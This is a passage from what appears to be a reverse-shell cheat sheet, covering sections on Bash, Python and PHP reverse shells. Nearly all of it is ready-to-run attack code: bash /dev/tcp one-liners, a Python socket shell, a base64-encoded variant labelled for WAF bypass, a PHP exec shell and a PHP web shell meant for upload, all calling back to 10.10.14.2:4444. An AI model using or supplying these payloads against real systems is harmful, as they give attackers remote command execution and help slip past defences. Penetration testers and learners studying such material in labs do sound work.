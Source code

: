***

### III. 🧬 Bash Reverse Shells

#### 💣 Classic

```bash
bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
```

#### 🧠 Short One-Liner

```bash
0<&196;exec 196<>/dev/tcp/10.10.14.2/4444; sh <&196 >&196 2>&196
```

#### ⚙️ Using `/bin/sh`

```bash
/bin/sh -i >& /dev/tcp/10.10.14.2/4444 0>&1
```

***

### IV. 🐍 Python Reverse Shells

#### 🧩 Python2/3 Universal

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.2",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

#### 🧠 Encoded (for WAF bypass)

```bash
echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cyA9IHNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKCIxMC4xMC4xNC4yIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCJiYXNoIikn" | base64 -d
```

***

### V. 🧩 PHP Reverse Shells

#### 💣 Simple Command

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'"); ?>
```

#### ⚙️ File Upload Exploit

Upload this as `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```

